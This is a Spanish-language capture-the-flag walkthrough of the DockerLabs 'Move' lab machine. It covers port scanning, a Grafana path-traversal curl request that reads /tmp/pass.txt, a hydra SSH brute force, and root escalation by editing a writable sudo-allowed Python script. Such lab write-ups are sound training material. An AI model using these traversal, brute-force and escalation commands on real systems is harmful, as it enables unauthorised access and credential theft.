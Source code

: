 # MOVE - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Move. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./move.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: El Pingüino de Mario

## RECONOCIMIENTO DE RED

### conectividad y SO

Antes de empezar con el escaneo ed puertos, comprobamos que tengamos conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/5f1907b2-25b6-4c1d-8d68-e2aaf43d49ec)

vemos que recibimos respuesta con TTL 64, por lo que el sistema operativo seguramente sea Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/a0622c0c-535e-405a-8e6a-c50b4e956dda)

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

**3000 - TCP - PPP?**

Ahora hacemos sobre estos tres puertos un escaneo de versiones y también lanzamos scripts de reconocimiento estándar:

```python
nmap -p22,80,3000 -sCV 172.17.0.2 -oN targeted
```

> `-p22,80,3000` hacer el escaneo solo sobre estos tres puertos

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/38911510-1fb2-4f54-9a84-f23727d3cb97)

Vemos que en el puerto 3000 hay un servicio HTTP. Probablemente sea Grafana, ya que el puerto 3000 es su puerto por defecto.

## RECONOCIMIENTO WEB

Primero empezamos con el servicio HTTP del puerto 80. Desde consola hacemos `whatweb http://172.17.0.2`:

![image](https://github.com/user-attachments/assets/bbcf2071-acaa-4a73-ad27-1510fbdb4faf)

No vemos nada interesante. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/4c5bb67c-3657-4f8c-99c1-0565feaf6940)

Vemos la web de Apache2 por defecto de Debian. Probamos a hacer fuzzing con gobuster, usando el directory-list-2.3-medium.txt:

```python
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,php.bak,txt,py,cgi,bin,pl,sh,rb,c,cpp,html,js,bak
```

![image](https://github.com/user-attachments/assets/dedd6bbb-b630-4f51-8a1d-f89ca57760b7)

Vemos un archivo llamado maintenance.html:

![image](https://github.com/user-attachments/assets/ac314719-6497-4488-9e47-18619c11e215)

Pone "acceso en /tmp/pass.txt", pero por ahora no nos sirve de nada ya que no tenemos ningún LFI, Path Traversal o cualquier forma de ver el archivo.

Pasamos al puerto 3000. Hacemos `whatweb http://172.17.0.2:3000`:

![image](https://github.com/user-attachments/assets/cf9c76d8-4b42-4e5f-98a3-01b69188bde0)

Vemos que se nos redirige a http://172.17.0.2:3000/login, y que se usa Grafana. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/869c49fb-8424-449b-ac63-1dd6f498e12b)

Vemos el panel de login de Grafana. Probamos a poner admin:admin, y funciona. Ahora estamos en el panel de administración:

![image](https://github.com/user-attachments/assets/2f37df60-cb37-428e-bab9-daef84e859b9)

Si buscamos en Google "Grafana exploit", vemos esto: https://exploit-notes.hdks.org/exploit/web/grafana-pentesting/. Si nos metemos, vemos que hay una ruta de Grafana en la que hay un Path Traversal. Nos podría servir para ver el archivo /tmp/pass.txt.

```python
curl --path-as-is http://172.17.0.2:3000/public/plugins/alertlist/../../../../../../../../tmp/pass.txt -o pass.txt
```

Ahora hacemos `cat pass.txt`:

![image](https://github.com/user-attachments/assets/3f397bd7-915e-4a0d-81cc-08259b2c9b7d)

Y vemos lo que parece ser una contraseña. Podemos hacer fuerza bruta de usuarios con esta contraseña por SSH:

```python
hydra -L /usr/share/wordlists/rockyou.txt -p t9sH76gpQ82UFeZ3GXZS ssh://172.17.0.2
```

![image](https://github.com/user-attachments/assets/85254cc5-234f-4431-86af-7ec26447a504)

Consigue encontrar un usuario llamado freddy. Ahora para conectarnos hacemos `ssh freddy@172.17.0.2` y de contraseña t9sH76gpQ82UFeZ3GXZS.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS (ROOT)

Siendo el usuario freddy, hacemos `sudo -l` para ver nuestros privilegios especiales de sudo:

![image](https://github.com/user-attachments/assets/afd2195f-9de7-4cb5-948e-0cd9737be5dc)

Vemos que podemos ejecutar como cualquier usuario, sin usar nuestra contraseña, el script /opt/maintenance.py usando el intérprete /usr/bin/python3. Si hacemos `ls -l /opt/maintenance.py`, vemos que freddy es el propietario del script y que podemos modificarlo. Entonces lo abrimos con nano, importamos la librería os y ejecutamos una bash:

![image](https://github.com/user-attachments/assets/6130e5b0-0163-4d3e-a6f4-5a8a27c92ebc)

Ahora lo guardamos, y hacemos `sudo /usr/bin/python3 /opt/maintenance.py`:

![image](https://github.com/user-attachments/assets/b665df18-c32e-4824-aed4-1473641a0792)

Y ganamos una bash como root en la máquina Move.